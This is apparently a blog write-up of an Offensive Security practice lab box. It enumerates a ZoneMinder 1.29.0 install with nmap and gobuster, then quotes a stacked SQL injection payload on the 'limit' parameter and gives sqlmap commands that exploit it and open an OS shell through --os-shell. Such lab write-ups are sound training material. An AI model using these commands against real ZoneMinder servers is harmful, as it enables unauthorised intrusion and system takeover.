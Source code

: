 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

# enumeration

Starting with a `nmap` scan to identify the attack surface of the target.

## port scan

```bash
$ nmap -Pn -p- 192.168.133.52
```

The scan shows the following open ports:
- 80 (`http`)
- 8080 (`http`)
- 3305 (`http`)
- 21 (`ftp`)
- 22 (`ssh`)


## gobuster
```bash
$ gobuster dir -u http://192.168.85.52 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 5 -b 404,403
```

> The `gobuster` scan detects the directory `/zm`.
{: .prompt-info }

---

# exploitation
Inside folder `/zm` on port `80` hides the software `ZoneMinder 1.29.0`.  
Looking for an exploit.
```bash
$ searchsploit zoneminder
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                |  Path
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ZoneMinder 1.24.3 - Remote File Inclusion                                                                                                     | php/webapps/17593.txt
Zoneminder 1.29/1.30 - Cross-Site Scripting / SQL Injection / Session Fixation / Cross-Site Request Forgery                                   | php/webapps/41239.txt
ZoneMinder 1.32.3 - Cross-Site Scripting                                                                                                      | php/webapps/47060.txt
ZoneMinder Video Server - packageControl Command Execution (Metasploit)                                                                       | unix/remote/24310.rb
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

> `Zoneminder 1.29/1.30 - Cross-Site Scripting / SQL Injection / Session Fixation / Cross-Site Request Forgery` seems to be useful as it describes a `SQL` vulnerability.
{: .prompt-info }

```
...
2)SQL Injection
Example Url:http://192.168.241.131/zm/index.php
Parameter: limit (POST)
    Type: stacked queries
    Title: MySQL > 5.0.11 stacked queries (SELECT - comment)
    Payload: view=request&request=log&task=query&limit=100;(SELECT *
FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
Easy exploitable using sqlmap.
...
```

We get the information that the parameter `limit` is vulnerable when performing a `GET` request to `index.php`.  
Exploiting the `SQLi` with `sqlmap`.

```bash
$ sqlmap http://192.168.133.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --technique=s -p limit
```

--- 

# post exploitation

> As we have a stacked based `SQLi` here on `MySQL` we can use the `--os-shell` feature of `sqlmap` to get a shell on the target.
{: .prompt-info }

```bash
$ sqlmap http://192.168.133.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --technique=s -p limit --os-shell
```

Get the flag.
```bash
$ cat /root/proof.txt
```

Pwned! <@:-)
